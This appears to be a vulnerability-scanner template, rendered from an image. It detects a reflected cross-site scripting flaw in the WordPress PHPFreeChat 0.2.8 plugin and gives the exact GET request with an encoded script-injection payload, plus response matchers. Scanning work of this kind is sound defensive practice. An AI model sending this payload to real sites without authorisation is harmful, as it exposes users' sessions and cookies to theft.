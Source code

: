 - words
  1. \</script>\<script>alert(document.domain)\</script>
- part - body

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# WordPress PHPFreeChat 0.2.8 - Cross-Site Scripting

## Description

- WordPress PHPFreeChat 0.2.8 plugin contains a cross-site scripting vulnerability via the url parameter. An attacker can execute arbitrary script in the browser of an unsuspecting user in the context of the affected site. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.
- severity - high
- tags - xss,wp-plugin,edb,wordpress

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/phpfreechat/lib/csstidy-1.2/css_optimiser.php?url=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

### Matchers

**Type - word**

- words
  1. \</script>\<script>alert(document.domain)\</script>
- part - body

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---